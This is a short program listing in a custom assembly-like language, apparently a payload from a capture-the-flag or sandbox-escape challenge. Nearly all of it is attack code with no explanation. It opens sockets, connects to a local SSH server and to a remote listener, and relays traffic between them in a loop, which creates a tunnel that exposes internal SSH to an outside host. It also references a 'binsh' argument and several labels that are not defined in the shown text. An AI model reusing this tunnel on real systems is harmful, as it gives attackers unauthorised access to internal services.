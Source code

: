 ```
write_test_args: 4 binsh0 4
write_testpad_args: 1 test_pad 4
write_packet_args: 1 buf 
write_packet_size: 632
write_sep_args: 1 sep 8
write_local_args: 3 buf 
write_local_size: 512
write_remote_args: 4 buf 
write_remote_size: 512
recvfrom_local_args: 3 buf 512 0x40 0 addr_len      // Use MSG_DONTWAIT flag (0x40) so we don't block
recvfrom_remote_args: 4 buf 512 0x40 0 addr_len     

addr_len: 0 0 0 0 0
from_addr: 0 0 0 0 0 0 0 0
buf: 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0

start:
// Create two sockets, fd 3 and 4 respectively
0x133769 sys_socket sock_args output
0x133769 sys_socket sock_args output

// Connect to local SSH server and remote listener
0x133769 sys_connect connect_localhost_args output
0x133769 sys_connect connect_remote_args output

// Forwarding loop
// Local -> remote
0x133769 sys_recvfrom recvfrom_local_args output
te constMinus1 output test_pad                  // Check if return value == -1
mult test_pad const20 test_pad                  // Use mult and add as a branch
add 0 test_pad 0
0x133769 bad_syscall5 shit shit                 // Tracepoint
add output zero write_remote_size
add output zero write_packet_size
0x133769 sys_write write_remote_args output     // Write to remote
0x133769 sys_write write_packet_args output     // Write to screen
0x133769 sys_write write_sep_args output        // Write seperator
0x133769 bad_syscall6 shit shit                 // Tracepoint

// Remote -> local
0x133769 sys_recvfrom recvfrom_remote_args output
te constMinus1 output test_pad                  // Check if return value == -1
mult test_pad const20 test_pad                  // Use mult and add as a branch
add 0 test_pad 0
0x133769 bad_syscall0 shit shit                 // Tracepoint
add output zero write_local_size
add output zero write_packet_size
0x133769 sys_write write_local_args output      // Write to local
0x133769 sys_write write_packet_args output     // Write to screen  
0x133769 sys_write write_sep_args output        // Write seperator
0x133769 bad_syscall2 shit shit                 // Tracepoint

sub 0 loop_size 0

0x133769 sys_write write_output_args output
0x133769 sys_write write_packet_args output
```

